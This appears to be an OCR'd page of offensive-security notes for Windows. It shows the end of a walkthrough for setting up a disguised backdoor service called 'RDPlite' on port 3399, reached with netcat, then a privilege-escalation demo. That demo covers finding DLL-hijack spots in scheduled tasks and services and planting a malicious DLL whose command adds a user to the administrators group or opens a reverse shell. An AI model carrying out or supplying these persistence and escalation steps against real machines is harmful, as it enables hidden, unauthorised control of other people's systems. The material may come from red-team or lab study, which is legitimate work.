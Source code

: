 9. Verify our service configuration that it blends. NOTE the 250 on the qdescription is how many
    bytes to display.
       ◦ sc qc RDPlite
       ◦ sc qdescription RDPlite 250
10. Start our service and verify our backdoor is running

```
◦ sc start RDPlite
◦ netstat -abno | findstr 3399
```

11. Log in

```
◦ nc <IP> 3399
```

## Escalation Demo
Once on box
1. Scheduled Tasks and Services
  - Check 'Security Options' for who is running as
  - Check 'Triggers' for when it occurs
  - Check 'Actions' to see if there is something we can utilize
  - Check file location for each sus task and grab binary/hash
    - Can hijack tasks with files
    - Make sure you can view hidden files and extensions
  - Check procman.exe
    - Can filter for `result is 'Name Not Found'` to see if we can DLL hijack at certain locations
2. Create malicious DLL
  - Change command in Mal DLL script
    - WinExec("cmd /C whoami > FINDME_1.txt", 1); >> "cmd /C localgroup administrators <username> /add" [or] "cmd /C <create reverse/local port forward>" [or] ... (be creative)
    - Follow Creating Malicious DLL in fg
  - Move DLL to target directory
  - Stop the task (restart the box)
  - Should work
  - check
    - net user <username>
    - net localgroup <group>
